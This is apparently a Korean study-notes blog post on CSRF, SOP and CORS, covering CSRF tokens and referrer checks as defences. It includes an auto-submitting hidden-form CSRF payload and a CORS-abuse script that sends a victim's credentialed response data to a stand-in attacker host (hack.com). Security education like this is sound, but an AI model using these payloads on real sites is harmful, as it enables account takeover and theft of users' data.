 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] CSRF란?"
excerpt: "모의해킹 취업반 스터디 7기 12주차"

date: 2025-01-09
last_modified_at: 

tags: [TIL, WEB, SECURITY]
---
```


# CSRF, Cross Site Request Forgery
-> 피해자가 서버로 공격자가 원하는 요청을 하게 만드는 것
웹 애플리케이션 취약점 중 하나로 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격방법을 의미한다. 유명 경매 사이트 옥션의 개인정보 유출 사건에 사용된 공격 방식이다.

## 취약점
모든 요청에서 발생 가능

## post method로만 파라미터 전달이 가능할 때 csrf 공격방식
form tag를 삽입해야 한다 -> XSS로부터 무결해야 한다

```html
<iframe style="display:none" name="frame"></iframe>

<form method="POST" action="link" id="test" target="frame">
<input type="hidden" name="email" value="test@example.com"/>
</form>

<script>
document.getElementById('test').submit();
</script>
```

# CSRF 대응방법
## CSRF Token
csrf 공격을 막기 위해 만든 random한 token
마이페이지에 접근할 때 토큰 발행

```html
<form>
<input type="hidden" name="csrfToken" value="random_value">
</form>
```

정보를 수정할 때 csrf 토큰을 함께 받도록 요청한다
csrf 토큰도 탈취해야 하는구나?
사용자의 form 태그가 있는 페이지에 접근할 때 csrf 토큰이 발행된다

## referrer check
확장성이 떨어질 수 있다
개발자가 예외처리를 했을 경우
-> `<meta name='referrer' content='no-referrer'>`

## 요청을 위조할 수 없게 하자
파라미터에 모르는 데이터를 넣게 하자 -> 인증정보
인증정보를 넣는 것!

# SOP / CORS
## SOP, Same-Origin Policy
다른 출처의 자원에 접근하지 못하게 브라우저가 막는 것

같은 출처의 기준
- 도메인
- 스키마
- 포트

## CORS, Cross Origin Resource Sharing
다른 출처에서도 데이터를 쓸 수 있게 함

ACAO Header, Access Controll Allow Origin
-> 응답에 들어감

acao header에 요청이 존재하냐
자원을 허용할 도메인을 등록해두는 것이다

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://target.com/seneitive-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'http://hack.com/log?key='+this.responseText;
    };
</script>
```

브라우저에 로드는 되는데 자바스크립트로 접근이 되냐 안되냐는 cors에 등록된 것만 가능하다

-> White List로 개발자가 하나하나 추가해줘야 함
하지만 개발자가 귀찮으시잖아~
`ACAO: *` -> SOP가 없는 것과 마찬가지다
다른 도메인에서 쿠키를 포함해서 요청한 것에 대한 응답은 * 못 씀
ACAC Header
Origin에 있는 데이터를 ACAO 헤더에 그대로 옮겨주자

CSRF
GET 방식이면 프리패스
POST -> XSS, form tag
CORS 정책이 잘 적용되어 있지 않다 -> 공격자 서버 만들어서 공격

# CSRF
모든 요청에서 CSRF가 발생가능하다
이 요청은 위조해도 되는가
이 요청은 함부로 위조할 수 있는가

# 참고
* [CSRF 공격과 방어 기법](https://velog.io/@gwanuuoo/CSRF-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EB%B0%A9%EC%96%B4-%EA%B8%B0%EB%B2%95)
* [Spring Security_CSRF Token의 개념과 사용 방법](https://codevang.tistory.com/282)
